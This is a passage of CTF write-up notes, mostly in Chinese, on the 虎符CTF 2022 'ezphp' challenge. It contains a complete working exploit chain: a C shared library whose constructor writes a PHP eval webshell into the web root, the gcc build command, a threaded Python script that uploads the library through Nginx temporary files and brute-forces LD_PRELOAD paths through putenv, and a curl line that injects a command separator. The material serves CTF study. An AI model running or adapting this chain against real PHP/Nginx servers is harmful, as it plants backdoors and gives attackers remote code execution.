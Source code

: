 `curl "http://localhost:9091/manage?m=%3b{urlencode(payload)}"`

### [虎符CTF 2022]ezphp

[wp](https://mp.weixin.qq.com/s?__biz=Mzg2MjYxMjAzMg==&mid=2247483903&idx=1&sn=26b6af39bc1bf9a0055c0be38a666472&chksm=ce047ed0f973f7c6b7a2ee4a300d10d22cf2a6e38fcbe5190011c8f08b14da9a30db2bf11061&mpshare=1&scene=23&srcid=0321x9PydhpbLJpuag0EBm4W&sharer_sharetime=1647861577180&sharer_shareid=3679f20229d72930158c21ee7f573b1e#rd)

```php
<?php (empty($_GET["env"])) ? highlight_file(__FILE__) : putenv($_GET["env"]) && system('echo hfctf2022');?>
```

oneline php，看到这个putenv再结合前面的栗子应该不陌生了就，结合Nginx上传临时文件 传.so

```c
#define _GNU_SOURCE
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

__attribute__ ((__constructor__)) void preload (void){
    system("echo \"<?php eval(\\$_POST[cmd]);?>\" > /var/www/html/ame.php");
}
```

```bash
$ gcc -fPIC -shared evil.c -o evil.so
```

```python
import  threading, requests
URL2 = f'http://127.0.0.1:30002/index.php'
nginx_workers = [12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27]
done = False


def uploader():
    print('[+] starting uploader')
    with open("exp.so","rb") as f:
        data = f.read()
    while not done:
        requests.get(URL2, data=data)
for _ in range(16):
    t = threading.Thread(target=uploader)
    t.start()
def bruter(pid):
    global done
    while not done:
        print(f'[+] brute loop restarted: {pid}')
        for fd in range(4, 32):
            try:
                requests.get(URL2, params={
                    'env': f"LD_PRELOAD=/proc/{pid}/fd/{fd}"
                })
            except:
                pass


for pid in nginx_workers:
    a = threading.Thread(target=bruter, args=(pid, ))
    a.start()
```
